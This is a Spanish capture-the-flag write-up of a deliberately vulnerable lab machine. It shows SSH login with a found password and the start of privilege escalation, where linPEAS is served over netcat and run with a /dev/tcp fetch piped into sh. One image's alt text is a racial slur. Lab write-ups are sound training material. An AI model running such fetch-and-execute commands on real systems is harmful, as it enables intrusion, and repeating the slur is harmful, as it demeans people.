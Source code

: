```html
driftingblues is hacked again so it's now called drippingblues. :D hahaha
<br>
by
<br>
travisscott & thugger
</body>
</html>
```

* En el código tengo una posible contraseña: `im----------`
* A la imagen `drippin.jpg`, le hago estego y no encuentro nada. Otro rabbit hole.

![nigger](./1.png) 


# Obtener acceso 

Intento entrar por SSH con el usuario `thugger` y esa contraseña `im----------`
Es válida y capturo bandera
```console
5C---------------------
```

# Elevación a root

No funciona lo tradicional, `sudo -l`, ni buscar binarios SUID. He buscado mas cosas y no he encontrado nada, así que voy a ejecutar un `linPEAS` en la máquina. Referencia: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

1. En la máquina atacante ejecuto:
```php 
sudo nc -q 5 -lvnp 8888 < linpeas.sh
```
2. Y desde la vulnerada
```php 
cat < /dev/tcp/192.168.0.5/8888 | sh
```
Y me detecta una versión de sudo que se puede vulnerar

